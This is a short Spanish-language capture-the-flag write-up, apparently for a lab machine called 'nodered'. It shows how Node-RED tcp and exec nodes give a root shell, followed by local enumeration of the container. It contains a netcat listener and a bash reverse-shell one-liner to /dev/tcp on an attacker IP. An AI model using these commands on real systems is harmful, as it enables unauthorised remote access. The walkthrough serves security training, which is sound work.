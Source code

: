 ![alt text](/images/image.png)



`tcp` # tiene que ser de la input class # connect to

`exec` # conectar los 3 puntos con el ultimo tcp

`tcp` # output class # type reply to tcp

`deploy` # Botón rojo para desplegar

```
➜  soqui nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.12] from (UNKNOWN) [10.129.233.130] 39118
whoami
root
[object Object]bash -c "bash -i >& /dev/tcp/10.10.14.12/4443 0>&1" # shell mas interactiva
```

# Enumeración Local

Tratamos de descargar cosas pero no tenemos `curl` ni `wget`
```
root@nodered:/node-red# wget
wget
bash: wget: command not found
root@nodered:/node-red# curl
curl
bash: curl: command not found

```
Checamos las interfaces
``` 
root@nodered:/node-red# ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
13: eth1@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:13:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.3/16 brd 172.19.255.255 scope global eth1
```